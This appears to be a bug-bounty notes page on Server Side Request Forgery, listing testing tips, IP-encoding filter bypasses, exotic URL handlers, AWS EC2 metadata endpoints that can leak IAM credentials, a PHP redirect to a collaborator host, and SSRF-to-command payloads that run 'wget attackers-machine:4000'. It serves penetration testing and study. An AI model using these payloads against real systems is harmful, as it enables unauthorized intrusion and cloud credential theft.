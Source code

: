 ```yaml
---
description: Server Side Request Forgery
---
```


# SSRF

Comes in many forms, each time it appears is almost a unique occurence, dependent on the site's functionality and implementation.  SSRF unintentionally gives the user the ability to do something and appear as though it is the server making that request.  If you have control over a URL parameter and it isn't a redirect, you should test for SSRF.  Some more common occurences are making requests to an API \(internal or external\), exposing their internal network through port scans or accessing files on their local networks. 

Take a look at out-of-band mechanisms `(ssrftest.com)` and burp's collaborater.  Set up a netcat lister via `nc -l -n -vv -p 8080 -k`

If you receive an error message back, check to see if there's a way to tell the difference between open and closed ports. If not, maybe the amount of time it takes to get a response may give you a hint \(burp's Intruder is built for this\). 

Often this only works with certain ports, so test 80, 443, 8080, 8443, 8001, etc..

If you have an endpoint that appends a path to your payload, try adding a & or a \# to the end of your payload like so:

[`http://internal-vulnerable-server/rce?cmd=wget attackers-machine:4000&`](http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000&)[`http://internal-vulnerable-server/rce?cmd=wget attackers-machine:4000#`](http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000#)

If there's a parser looking for a specific IP address, try decimal IP notation.

Take a look into a web app's PDF generators, document parsers and file uploads, as SSRF may occur there.  You can simplify the confirmation of the vulnerability without exposing your private IP by using webhooks \(webhook.site\).  

**Port scanning internal assets**  


```text
http://0177.1/
```

```text
http://0x7f.1/
```

```text
http://127.000.000.1
```

```text
https://520968996
```

_Note:_ The latter can be calculated using [http://www.subnetmask.info/](http://www.subnetmask.info/)

**Exotic Handlers**

```text
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```text
http://[::1]
```

```text
http://[::]
```

**Wildcard DNS**

```text
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

_Link:_ [http://xip.io](http://xip.io)

```text
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ [http://nip.io](http://nip.io)

**AWS EC2 Metadata**

```text
http://169.254.169.254/latest/meta-data/
```

```text
http://169.254.169.254/latest/meta-data/local-hostname
```

```text
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role \[...\]

_Link:_ [http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) \(includes a comprehensive Instance Metadata Categories table\)

Create index.php with the following:

&lt;?php header\("location: [http://burp.collab.server](http://burp.collab.server)"\); ?&gt; 

Host it \(but be careful in doing this as it does introduce a security vulnerability on the system you're on\): `sudo php -S :80 -t`  Specify your host for the target site in the vulnerable application

This has a great write-up on SOP and CORS, as well as SSRF: _https://www.bishopfox.com/blog/2015/04/vulnerable-by-design-understanding-server-side-request-forgery/_ 

**Bug Bounty Write-ups:**   
[https://hackerone.com/reports/508459](https://hackerone.com/reports/508459)  
[https://hackerone.com/reports/541169](https://hackerone.com/reports/541169)   
[https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)   
[https://hackerone.com/reports/301924](https://hackerone.com/reports/301924)   
[https://www.sxcurity.pro/hackertarget/](https://www.sxcurity.pro/hackertarget/)   
[http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)   
[https://seanmelia.files.wordpress.com/2016/07/ssrf-to-pivot-internal-networks.pdf](https://seanmelia.files.wordpress.com/2016/07/ssrf-to-pivot-internal-networks.pdf) [https://github.com/ngalongc/bug-bounty-reference\#server-side-request-forgery-ssrf](https://github.com/ngalongc/bug-bounty-reference#server-side-request-forgery-ssrf) [https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/](https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/) 

**Payloads:** [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF) injection 

**RESOURCES**   
[http://resources.infosecinstitute.com/the-ssrf-vulnerability/\#gref](http://resources.infosecinstitute.com/the-ssrf-vulnerability/#gref) [http://blog.safebuff.com/2016/07/03/SSRF-Tips/](http://blog.safebuff.com/2016/07/03/SSRF-Tips/)   
https://medium.com/@vickieli/bypassing-ssrf-protection-e111ae70727b   
[https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF) [https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/) [https://securingtomorrow.mcafee.com/mcafee-labs/server-side-request-forgery-takes-advantage-vulnerable-app-servers/](https://securingtomorrow.mcafee.com/mcafee-labs/server-side-request-forgery-takes-advantage-vulnerable-app-servers/) [https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/](https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/)

